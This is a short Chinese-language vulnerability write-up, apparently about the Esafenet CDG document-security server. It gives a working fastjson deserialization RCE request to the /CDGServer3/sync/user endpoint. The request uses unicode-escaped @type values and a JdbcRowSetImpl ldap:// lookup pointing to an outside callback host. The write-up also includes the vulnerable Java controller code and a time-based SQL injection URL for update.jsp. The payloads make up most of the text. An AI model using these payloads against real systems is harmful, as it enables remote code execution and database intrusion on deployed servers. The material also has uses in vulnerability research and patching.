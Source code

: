 

### （6）user 远程代码执行漏洞

```
POST /CDGServer3/sync/user
Content-Type: application/json

{
"a": {
"\x40\u0074\u0079\u0070\u0065":
"java.\u006C\u0061\u006E\u0067.\u0043\u006C\u0061\u0073\u0073",
"val":
"\u0063\u006F\u006D\u002E\u0073\u0075\u006E\u002E\u0072\u006F\u0077\u0073\u0065\u007
4\u002E\u004A\u0064\u0062\u0063\u0052\u006F\u0077\u0053\u0065\u0074\u0049\u006D\u007
0\u006C"
},
"b": {
"\x40\u0074\u0079\u0070\u0065":
"\u0063\u006F\u006D\u002E\u0073\u0075\u006E\u002E\u0072\u006F\u0077\u0073\u0065\u007
4\u002E\u004A\u0064\u0062\u0063\u0052\u006F\u0077\u0053\u0065\u0074\u0049\u006D\u007
0\u006C",
"dataSourceName":
"\u006C\u0064\u0061\u0070\u003A\u002F\u002Fc80d8603d8.ipv6.1433.eu.org",
"autoCommit": true
}
}
```

漏洞位于`com.esafenet.restful.controller.SyncUserAndGroupController`

```java
@Controller
@RequestMapping({"/sync"})
public class SyncUserAndGroupController {
    @RequestMapping({"user"})
    @ResponseBody
    public ReturnObject syncUser(HttpServletRequest request) throws IOException { //同步用户接口
        String userStrs = this.getBody(request);
        List<UserSynBean> users = new ArrayList();
        if (userStrs != null && !"".equals(userStrs)) {
            this.paramUserJson(userStrs, users);
        }
}
```

`getBody`核心代码是`BufferedReader br = new BufferedReader(new InputStreamReader(request.getInputStream(), "utf-8"));`。读取数据流中的内容然后转乘字符串。接着调用`paramUserJson`方法，而该方法的第一行代码`JSONObject jsonObject = JSON.parseObject(userStrs);`就是调用fastjson对字符串进行解析。而fastjson的版本也存在漏洞。

### （7）update.jsp sql注入漏洞

```
/CDGServer3/workflowE/useractivate/update.jsp?flag=1&ids=1,3);WAITFOR%20DELAY%20%270:0:3%27--
```

